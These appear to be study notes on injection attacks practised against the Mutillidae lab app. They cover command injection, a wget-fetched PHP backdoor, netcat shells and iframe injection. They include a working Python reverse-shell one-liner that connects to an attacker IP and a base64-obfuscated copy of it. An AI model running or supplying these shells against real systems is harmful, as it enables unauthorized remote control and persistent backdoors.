 <h1>Other forms of Injection</h1>
<p>
	The purpose of injection remains the same , injecting into an interpreted context for causing the application to perform an unintended functionality.
</p>
<ol>
<li><h2>Command Injection:</h2>
<p> Command injection referes to the attack mechanism in which an attacker can inject any command into the 
underlying OS and compromise the back-end system. Mutillidae for me is hosted on a Linux server, so will be using UNIX commands for the same. Getting shell access on the underlying server system is often the jackpot to any attacker. We can create persistent backdoors with the help of metasploit.
</p>
<ul>
<li>
<h3>Method 1:</h3>
Download a php backdoor via wget using the command injection flaw
And then use that backdoor. 
Catch: /var/www should be writeable
If .htacess is modifiable, we can modify .htacess and make /var/www writeable
</li>
<li><h3>Method 2:Netcat shell</h3>
Use Netcat with <b>"-e"</b> option to allow for command execution after connect.
The -e executes whatever we place in after the parameter. In this case we want to spawn a 
bash shell on tcp connect. 
However, this option is not present on many traditional netcat installations
What to do in this case?
Well we can go for a custom shell in a language of our choice
</li> 
<li><h3>Method 3:Python shell(any language installed on backend)</h3>
Set up a listener on attacker machine
<pre>
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('192.168.13.150',1234))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
</pre>
For obfuscation , we could also base64 encode and decode string
<pre>
python -c "exec('aW1wb3J0IHNvY2tldCwgc3VicHJvY2VzcztzID0gc29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgo\n4oCYMTkyLjE2OC4xMy4xNTDigJksOTAwMCkpCndoaWxlIDE6ICBwcm9jID0gc3VicHJvY2Vzcy5Q\nb3BlbihzLnJlY3YoMTAyNCksIHNoZWxsPVRydWUsIHN0ZG91dD1zdWJwcm9jZXNzLlBJUEUsIHN0\nZGVycj1zdWJwcm9jZXNzLlBJUEUsIHN0ZGluPXN1YnByb2Nlc3MuUElQRSk7cy5zZW5kKHByb2Mu\nc3Rkb3V0LnJlYWQoKStwcm9jLnN0ZGVyci5yZWFkKCkp\n'.decode('base64'))"
</pre>
</li>
<li><h3>Method-4: Meterpreter Shell</h3>
Deploying a Meterpreter shell is one way to create a well obfuscated persisitent backdoor to any OS we have shell acess on.How to create and deploy a meterpreter shell is a different and vast topic altogether.
</li>
</ul>
<li><h2>Frame Source injection</h2>
	Similar to a Remote file inclusion vulnerability. We can include any special characters once they  are URL encoded to cause an XSS attack on the site. We can include any iframe of our choice such as a malicious form and then steal user credentials or make cross-domain requests. We could inject a remote page into the src of the iframe. Note that iframes cannot access the cookies of the parent site, however can run arbitary javascript if not run in sandbox mode.
	<p> iframe sources should never be allowed to be controlled by user input, as the iframe can load potential malware from other site. There are other security risks as well. I found this blog very helpful.
	<a href="https://stackoverflow.com/questions/7289139/why-are-iframes-considered-dangerous-and-a-security-risk?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa">Why Iframes pose a security risk?</a>